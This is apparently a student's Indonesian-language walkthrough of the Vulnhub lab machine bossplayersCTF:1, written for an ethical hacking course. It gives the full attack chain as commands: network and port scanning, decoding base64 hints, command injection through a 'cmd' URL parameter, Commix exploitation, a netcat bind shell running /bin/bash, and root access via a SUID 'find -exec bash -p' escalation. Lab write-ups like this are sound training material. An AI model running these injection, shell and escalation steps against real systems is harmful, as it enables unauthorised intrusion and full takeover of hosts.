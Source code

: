 | Nama | NRP | Kelas |
| :--: | :--: | :--: |
| Nabiel Nizar Anwari | 5027231087 | Ethical Hacking dan Uji Keamanan Siber (A) |

# WU_bossplayersCTF1-Vulnhub
Write Up BossPlayersCTF:1 VM Vulnhub

- [Download VM here](https://www.vulnhub.com/entry/bossplayersctf-1,375/)

About Release
```
    Name: bossplayersCTF: 1
    Date release: 28 Sep 2019
    Author: Cuong Nguyen
    Series: bossplayersCTF
```

## Scanning Network dengan Netdiscover
**Tujuan** : Menemukan IP address dari target di jaringan lokal.  

`sudo netdiscover -r 192.168.87.0/24`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/netdiscover-2.png)

## Scanning Target dengan Nmap
**Tujuan:** Mengidentifikasi port terbuka dan layanan yang berjalan.

`sudo nmap 192.168.87.4 -A -p- -oN log-nmap.log`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nmap.png)

## Melihat Halaman Utama HTTP
**Tujuan: **Mengeksplorasi halaman utama server HTTP.

`http://192.168.87.4/`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/http.png)

## Memeriksa robots.txt file
**Tujuan:** Mencari petunjuk tambahan.

URL : `http://192.168.87.4/robots.txt`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/robots-txt.png)

## Decode Password (Base64)
**Tujuan:** Mendekode string yang ditemukan.

`echo bG9sIHRyeSBoYXJkZXIgYnJvCg== | base64 -d`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode.png)


## Source Code Halaman Web

`Ctrl + U`

`WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/ctrl-u.png)

## Decode String Base64 Berulang
**Tujuan:** Mendekode string Base64 hingga teks asli ditemukan.

```
1. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d
2. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d
3. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d | base64 -d

```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode-2.png)

## PHP File Target
**Tujuan:** Mengeksplorasi file PHP yang ditemukan.

`http://192.168.87.4/workinginprogress.php`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-1.png)

## Testing Command Injection (Whoami URL)
**Tujuan:** Menguji kerentanan Command Injection.

`http://192.168.87.4/workinginprogress.php?cmd=whoami`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-2.png)

## Eksploitasi dengan Commix
**Tujuan:** Mengeksploitasi Command Injection menggunakan Commix.

`commix -u 'http://192.168.87.4/workinginprogress.php?cmd=whoami'`
```
nc -e /bin/bash -lvp 2048
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/commix.png)

## Mendapatkan Reverse Shell dengan Netcat
**Tujuan:** Mengakses shell dari mesin target.

`nc 192.168.87.4 2048`

```
uname -a

find / -perm -4000 -type f 2>/dev/null
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc.png)

## Privilege Escalation
**Tujuan:** Meningkatkan hak akses menjadi root.

```
find -exec bash -p \;
whoami
ls -al /root
cat /root/root.txt
cat /root/root.txt | base64 -d
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc-2.png)

# Kesimpulan
> Pada akhir proses, berhasil mendapatkan akses root dan membaca file root.txt, yang merupakan flag dari mesin ini. Proses ini mencakup eksplorasi HTTP, eksploitasi command injection, dan privilege escalation. tools-tools seperti base64 decoding, Commix, dkk juga sangat membantu untuk bisa mengeksploitasi mesin ini
